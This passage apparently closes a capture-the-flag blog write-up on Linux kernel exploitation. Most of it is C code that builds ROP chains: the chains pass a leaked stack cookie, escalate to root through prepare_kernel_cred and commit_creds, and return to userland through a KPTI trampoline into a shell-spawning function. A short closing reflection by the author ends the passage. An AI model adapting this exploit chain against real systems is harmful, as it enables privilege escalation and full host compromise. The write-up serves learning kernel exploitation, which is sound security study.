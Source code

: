 ```C
    payload[off++] = pop_rdi_rbp_ret; // return address
    payload[off++] = 0; // rdi <- 0
    payload[off++] = 0; // 
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = kpti_trampoline; //  
    payload[off++] = 0x0; //
    payload[off++] = 0x0; //
    payload[off++] = (unsigned long)after_prepare_kernel_cred;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    
    write(global_fd, payload, sizeof(payload));


}

void stage4(){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rdi_rbp_ret; // return address
    payload[off++] = struct_commit_creds; // 
    payload[off++] = 0; // dummy rbp
    payload[off++] = commit_creds; // commit_creds(returned_creds_struct)
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)popShell;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    write(global_fd, payload, sizeof(payload))
}
```

**NOTE: Another important thing to remember is we need to provide the CS , rflags ,sp and ss register which are popped from the stack during a kernel -> userland swap**

## Closing Thoguhts

This Challenge seemed like a good introduction to kernel pwning and how to navigate kernel source sadly i couldn’t elaborate on everything i learned while solving this challemnge in this blog post so i definately recommend googling around …. [0xAtharv](https://twitter.com/0xAtharv) Out !
